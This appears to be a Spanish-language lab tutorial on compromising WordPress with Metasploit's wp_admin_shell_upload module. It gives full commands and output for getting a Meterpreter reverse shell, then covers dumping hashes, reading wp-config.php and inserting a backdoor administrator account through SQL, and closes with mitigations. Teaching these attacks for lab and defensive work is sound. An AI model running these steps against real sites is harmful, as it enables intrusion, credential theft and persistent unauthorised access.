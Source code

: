 ### **Ataques a WordPress con Metasploit**

---

## **Automatización de la Explotación de WordPress con Metasploit**

Metasploit Framework (**MSF**) permite automatizar la explotación de WordPress mediante módulos específicos. Uno de los módulos más efectivos es `wp_admin_shell_upload`, que permite **obtener una reverse shell** si se poseen credenciales válidas de administrador.

---

## **Iniciar Metasploit**

Ejecutar Metasploit en la terminal:

```bash
msfconsole
```

---

## **Buscar el Módulo para Explotación**

Buscar módulos de explotación relacionados con WordPress:

```bash
search wp_admin
```

**Salida esperada:**

```plaintext
#  Name                                       Disclosure Date  Rank       Check  Description
-  ----                                       ---------------  ----       -----  -----------
0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload
```

El módulo `wp_admin_shell_upload` permite cargar un **web shell** a través de la cuenta de administrador.

---

## **3️⃣ Seleccionar el Módulo**

Seleccionar el módulo de explotación:

```bash
use exploit/unix/webapp/wp_admin_shell_upload
```

---

## **4️⃣ Listar Opciones del Módulo**

Para ver las opciones disponibles:

```bash
options
```

**Salida esperada:**

```plaintext
Name       Current Setting  Required  Description
----       ---------------  --------  -----------
PASSWORD                    yes       La contraseña de WordPress
RHOSTS                      yes       Dirección IP o dominio del objetivo
RPORT      80               yes       Puerto del objetivo
TARGETURI  /                yes       Ruta base de WordPress
USERNAME                    yes       Nombre de usuario de WordPress
LHOST                       yes       Dirección IP del atacante
LPORT                       yes       Puerto de escucha para la shell
```

---

## **5️⃣ Configurar Opciones**

Configurar los valores requeridos:

```bash
set rhosts blog.inlanefreight.com
set username admin
set password Winter2020
set lhost 10.10.16.8
set lport 4444
```

---

## **6️⃣ Ejecutar el Ataque**

Ejecutar el módulo:

```bash
run
```

**Salida esperada si la explotación es exitosa:**

```plaintext
[*] Started reverse TCP handler on 10.10.16.8:4444
[*] Autenticando con WordPress usando admin:Winter2020...
[+] Autenticado con éxito en WordPress
[*] Subiendo payload...
[*] Ejecutando payload en /wp-content/plugins/YtyZGFIhax/uTvAAKrAdp.php...
[*] Enviando stage (38247 bytes) a blog.inlanefreight.com
[*] Meterpreter session 1 abierta
[+] Eliminado uTvAAKrAdp.php
```

---

## **7️⃣ Interacción con Meterpreter**

Una vez obtenida la sesión, se pueden ejecutar comandos en el servidor:

```bash
meterpreter > getuid
Server username: www-data (33)
```

Esto confirma que el atacante tiene acceso con los permisos del usuario del servidor web.

### **Comandos Útiles en Meterpreter**

|Comando|Descripción|
|---|---|
|`sysinfo`|Muestra información del sistema|
|`shell`|Accede a una shell interactiva|
|`upload file`|Sube un archivo al servidor|
|`download file`|Descarga un archivo del servidor|
|`hashdump`|Extrae hashes de contraseñas|
|`background`|Envía la sesión a segundo plano|

---

## **💡 Posibles Ataques desde la Reverse Shell**

1. **Escalada de privilegios**
    
    - Buscar archivos con permisos `SUID`:
        
        ```bash
        find / -perm -4000 2>/dev/null
        ```
        
    - Intentar ejecutar comandos con `sudo`:
        
        ```bash
        sudo -l
        ```
        
2. **Acceso a la base de datos de WordPress**
    
    - Leer las credenciales en `wp-config.php`:
        
        ```bash
        cat /var/www/html/wp-config.php
        ```
        
    - Conectarse a la base de datos:
        
        ```bash
        mysql -u root -p
        ```
        
3. **Mantener persistencia**
    
    - Crear un nuevo usuario administrador en WordPress:
        
        ```sql
        INSERT INTO wp_users (user_login, user_pass, user_email, user_registered, user_status)
        VALUES ('hacker', MD5('password123'), 'hacker@mail.com', now(), '0');
        ```
        
    - Agregar permisos de administrador:
        
        ```sql
        INSERT INTO wp_usermeta (user_id, meta_key, meta_value) VALUES ('[USER_ID]', 'wp_capabilities', 'a:1:{s:13:"administrator";b:1;}');
        ```
        

---

## **🛡️ Medidas de Seguridad para Mitigar Este Ataque**

✔ **Deshabilitar la edición de archivos en WordPress**  
Agregar en `wp-config.php`:

```php
define('DISALLOW_FILE_EDIT', true);
```

✔ **Restringir permisos de escritura en directorios de plugins y temas**

```bash
chmod -R 444 wp-content/themes/
chmod -R 444 wp-content/plugins/
```

✔ **Usar autenticación de dos factores (2FA)**  
Evita que un atacante inicie sesión con credenciales robadas.

✔ **Monitorear accesos con un WAF**  
Configurar reglas en **ModSecurity** para detectar accesos sospechosos.

✔ **Mantener WordPress y plugins actualizados**  
Reduce el riesgo de explotación de vulnerabilidades conocidas.

---

## **🔎 Conclusión**

El módulo `wp_admin_shell_upload` de **Metasploit** permite explotar WordPress si se tienen credenciales administrativas. Con una **reverse shell**, un atacante puede **escalar privilegios, acceder a la base de datos y persistir en el sistema**. Implementar **medidas de seguridad como 2FA, restricción de permisos y monitoreo de accesos** es clave para prevenir este tipo de ataques.